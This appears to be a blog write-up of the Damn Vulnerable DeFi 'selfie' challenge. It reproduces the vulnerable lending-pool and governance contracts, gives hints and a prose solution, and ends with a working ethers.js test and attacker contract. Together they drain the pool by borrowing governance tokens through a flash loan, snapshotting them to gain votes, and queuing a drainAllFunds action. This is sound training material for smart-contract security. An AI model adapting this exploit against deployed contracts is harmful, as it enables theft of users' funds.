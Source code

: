 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 6: selfie'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our sixth challenge is called 'selfie' and it comes with the following prompt:

```
A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.
```

So all we have to do is drain the lending pool!

The contracts for this challenge are located in contracts/selfie/. The contract source code can be found below:

<details>
<summary> SelfiePool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Snapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "./SimpleGovernance.sol";

/**
 * @title SelfiePool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SelfiePool is ReentrancyGuard {

    using Address for address;

    ERC20Snapshot public token;
    SimpleGovernance public governance;

    event FundsDrained(address indexed receiver, uint256 amount);

    modifier onlyGovernance() {
        require(msg.sender == address(governance), "Only governance can execute this action");
        _;
    }

    constructor(address tokenAddress, address governanceAddress) {
        token = ERC20Snapshot(tokenAddress);
        governance = SimpleGovernance(governanceAddress);
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        uint256 balanceBefore = token.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        token.transfer(msg.sender, borrowAmount);        
        
        require(msg.sender.isContract(), "Sender must be a deployed contract");
        msg.sender.functionCall(
            abi.encodeWithSignature(
                "receiveTokens(address,uint256)",
                address(token),
                borrowAmount
            )
        );
        
        uint256 balanceAfter = token.balanceOf(address(this));

        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

    function drainAllFunds(address receiver) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);
        
        emit FundsDrained(receiver, amount);
    }
}
```
</div>
</details>

<details>
<summary> SimpleGovernance.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title SimpleGovernance
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SimpleGovernance {

    using Address for address;
    
    struct GovernanceAction {
        address receiver;
        bytes data;
        uint256 weiAmount;
        uint256 proposedAt;
        uint256 executedAt;
    }
    
    DamnValuableTokenSnapshot public governanceToken;

    mapping(uint256 => GovernanceAction) public actions;
    uint256 private actionCounter;
    uint256 private ACTION_DELAY_IN_SECONDS = 2 days;

    event ActionQueued(uint256 actionId, address indexed caller);
    event ActionExecuted(uint256 actionId, address indexed caller);

    constructor(address governanceTokenAddress) {
        require(governanceTokenAddress != address(0), "Governance token cannot be zero address");
        governanceToken = DamnValuableTokenSnapshot(governanceTokenAddress);
        actionCounter = 1;
    }
    
    function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns (uint256) {
        require(_hasEnoughVotes(msg.sender), "Not enough votes to propose an action");
        require(receiver != address(this), "Cannot queue actions that affect Governance");

        uint256 actionId = actionCounter;

        GovernanceAction storage actionToQueue = actions[actionId];
        actionToQueue.receiver = receiver;
        actionToQueue.weiAmount = weiAmount;
        actionToQueue.data = data;
        actionToQueue.proposedAt = block.timestamp;

        actionCounter++;

        emit ActionQueued(actionId, msg.sender);
        return actionId;
    }

    function executeAction(uint256 actionId) external payable {
        require(_canBeExecuted(actionId), "Cannot execute this action");
        
        GovernanceAction storage actionToExecute = actions[actionId];
        actionToExecute.executedAt = block.timestamp;

        actionToExecute.receiver.functionCallWithValue(
            actionToExecute.data,
            actionToExecute.weiAmount
        );

        emit ActionExecuted(actionId, msg.sender);
    }

    function getActionDelay() public view returns (uint256) {
        return ACTION_DELAY_IN_SECONDS;
    }

    /**
     * @dev an action can only be executed if:
     * 1) it's never been executed before and
     * 2) enough time has passed since it was first proposed
     */
    function _canBeExecuted(uint256 actionId) private view returns (bool) {
        GovernanceAction memory actionToExecute = actions[actionId];
        return (
            actionToExecute.executedAt == 0 &&
            (block.timestamp - actionToExecute.proposedAt >= ACTION_DELAY_IN_SECONDS)
        );
    }
    
    function _hasEnoughVotes(address account) private view returns (bool) {
        uint256 balance = governanceToken.getBalanceAtLastSnapshot(account);
        uint256 halfTotalSupply = governanceToken.getTotalSupplyAtLastSnapshot() / 2;
        return balance > halfTotalSupply;
    }
}
```
</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
Yet another flash loan. How can we abuse the flash loan to take over the governance? Hint: how are votes calculated?
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
We can call the `snapshot()` function on the governance token at any time to record the balance of our attacker contract as well as the total supply.
</div>
</details>

<details>
<summary> Hint 3:</summary>
<br>
<div markdown="1">
We can use the flash loan to queue up an action. When we later activate the action from our attacker contract, who is the `msg.sender` for the executed action?
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
The flash loan allows us to temporarily borrow a huge number of governance tokens. During the flash loan, and while the governance tokens are still in our posession, we can call `snapshot()` to record the balance of our attacker contract and the current total supply. This is later used to check that we have enought votes to perform the `queueAction()`. We can now queue an action that will be a call to the `drainAllFunds()` function. With the action queued, we can repay our flash loan and wait the requried time of two days to execute our action. Notably, we will call into the governance contract in order to execute the action, which will in turn make an external call using our provided calldata (a call to the `drainAllFunds()` function). Whenever a regular (non delegating) external call is made, the `msg.sender` will be the calling contract. This is key, because this is how we can bypass the onlyGovernance modifier. Finally, `executeAction()` will call `drainAllFunds()` with the attacker address as a parameter and then all of the funds from the SelfiePool contract will be sent to the attacker and we have completed the challenge.
</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const SelfiePoolAttackFactory = await ethers.getContractFactory('SelfiePoolDrainer', deployer);
        this.s_attacker = await SelfiePoolAttackFactory.deploy(this.pool.address, this.governance.address, this.token.address);
        await this.s_attacker.attack(TOKENS_IN_POOL, attacker.address);
        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]);
        await this.s_attacker.payAttacker();
    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title SelfiePoolDrainer.sol
 * @author securerodd
 */
 interface ISelfiePool {
   function flashLoan(uint256) external;
}

 interface ISimpleGovernance { 
    function queueAction(address, bytes calldata, uint256) external returns (uint256);
    function executeAction(uint256) external;
}
interface IGovToken {
    function snapshot() external;
    function transfer(address, uint256) external;
}

contract SelfiePoolDrainer {
    ISelfiePool public pool;
    ISimpleGovernance public simpleGov;
    IGovToken public token;
    address attacker;
    uint256 attack_id;

    constructor(address _poolAddress, address _govAddress, address _token) {
        pool = ISelfiePool(_poolAddress);
        simpleGov = ISimpleGovernance(_govAddress);
        token = IGovToken(_token);
    }

    function receiveTokens(address _derp, uint256 _amount) external {
        token.snapshot();
        attack_id = simpleGov.queueAction(address(pool), abi.encodeWithSignature("drainAllFunds(address)", attacker), 0);
        token.transfer(address(pool), _amount); 
    }

    function payAttacker() external {
        simpleGov.executeAction(attack_id);
    }

    function attack(uint _amount, address _attacker) external {
        attacker = _attacker;
        pool.flashLoan(_amount);
    }
}
```
</div>
</details>